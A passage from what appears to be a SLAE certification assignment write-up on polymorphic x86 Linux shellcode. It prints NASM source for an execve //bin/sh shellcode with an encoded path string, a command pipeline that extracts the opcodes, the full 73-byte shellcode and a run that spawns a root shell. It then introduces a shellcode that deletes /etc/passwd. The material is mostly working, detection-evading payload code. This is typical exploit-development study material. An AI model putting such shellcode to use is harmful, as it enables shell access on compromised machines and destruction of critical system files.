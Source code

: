 ```nasm
    xor eax,[esi-2]

    push eax
    xor eax,eax
    xor eax,[edi]
    push eax
    mov ebx,esp 

    xor eax,eax
    push eax
    lea edi,[ebx]
    push edi
    mov ecx,esp

    mov al,0xb              ; int execve(const char *filename, char *const argv[],char *const envp[]);

    int 0x80

here:
    call me
    path db 0x30,0x30,0x63,0x6a,0x6f,0x30,0x74,0x69 ; encoded //bin/sh string, we added 1 to each byte
```
  
Let's compile our polymorphic shellcode:  
```bash
# ./compile.sh execve_polymorphic
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
# objdump -d ./execve_polymorphic|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x3a\x8b\x34\x24\x5f\x6a\x01\x58\x48\x50\x89\xe2\x31\xc9\xb1\x07\x8b\x04\x0f\x48\x89\x04\x0f\xfe\xc9\x79\xf5\x31\xc0\x50\x83\xc4\x03\x8d\x76\x06\x33\x46\xfe\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xc1\xff\xff\xff\x30\x30\x63\x6a\x6f\x30\x74\x69"
```
  
Let's run it into [shellcode.c](https://github.com/phackt/slae/tree/master/assignment6/execve/shellcode.c):  
```bash
# gcc -fno-stack-protector -z execstack -o shellcode shellcode.c && ./shellcode
Shellcode Length:  73
# id
uid=0(root) gid=0(root) groups=0(root)
```
  
Our polymorphic shellcode is 73 bytes so we are under the 52 * 1.5 = 78 bytes, perfect.  
<br />
### unlink /etc/passwd shellcode:  
  
For this second shellcode let's have a look at a [shellcode](http://shell-storm.org/shellcode/files/shellcode-560.php) that aims at unlinking the critical /etc/passwd file.  A quick ``` man 2 unlink ``` provides this information: ***unlink()** deletes a name from the filesystem.*.  Great, but please don't forget to backup your /etc/passwd file.  
    